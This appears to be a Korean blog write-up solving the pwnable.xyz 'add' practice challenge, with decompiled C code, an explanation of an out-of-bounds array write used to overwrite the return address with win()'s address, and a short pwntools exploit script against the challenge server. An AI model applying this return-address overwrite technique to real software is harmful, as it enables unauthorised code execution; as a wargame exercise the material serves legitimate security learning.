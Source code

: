 ```yaml
---
title: "[pwnable.xyz]add"
date: 2020-1-12
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  __int64 v4; // [rsp+8h] [rbp-78h]
  __int64 v5; // [rsp+10h] [rbp-70h]
  __int64 v6; // [rsp+18h] [rbp-68h]
  __int64 v7[11]; // [rsp+20h] [rbp-60h]
  unsigned __int64 v8; // [rsp+78h] [rbp-8h]
 
  v8 = __readfsqword(0x28u);
  setup();
  while ( 1 )
  {
    v4 = 0LL;
    v5 = 0LL;
    v6 = 0LL;
    memset(v7, 0, 80uLL);
    printf("Input: ", argv, v7);
    if ( __isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6) != 3 )
      break;
    v7[v6] = v4 + v5;
    argv = v7[v6];
    printf("Result: %ld", argv);
  }
  result = 0;
  __readfsqword(40u);
  return result;
}
```

v7에서 OOB가 일어난다. 

v7의 v6 인덱스에 v4+v5한 값을 넣어주는데 여기서 취약점이 터진다. 

v4+v5로 리턴할 위치 잡아주고 v6로 ret에 맞춰주면 된다. 

v7의 위치가 rbp-0x60이니까 v6의 인덱스 값을 rbp+0x8로 ret위치로 맞춰주면 된다.

근데 __int64니까 한 인덱스당 8바이트 크기만큼 가질것이다. 

0x68 / 8 = 13이니까 v6에는 13값을 넣고 v4 + v5를 win()주소로 바꿔주면 된다. (v4+v5는 %d로 입력받아서 10진수로 넣어주면 된다.

```assembly
mov    rdx,QWORD PTR [rbp-0x70]
mov    QWORD PTR [rbp+rax*8-0x60],rd
```

Input : 1094795585(0x4141414141) 0 13 이렇게 넣고 rbp+rax*8-0x60 이후 리턴(rbp+8)의 위치를 보면 잘 들어간걸 알 수 있다.

![](https://user-images.githubusercontent.com/32904385/72206499-07641f00-34d2-11ea-9283-885e107b6bc0.png)

이제 리턴값도 맞췄겠다 리턴을 해주면 되는데 scanf에서 3이 아니면 break로 빠져나가는 걸 이용하면 된다.

```c
if ( __isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6) != 3 ) break;
```

> exploit.py

```python
from pwn import *
 
e = ELF('./challenge')
p = remote('svc.pwnable.xyz',30002)
 
p.sendlineafter(': ',str(0x400822) + ' 0  13')
p.sendlineafter(': ','A')
p.interactive()
```

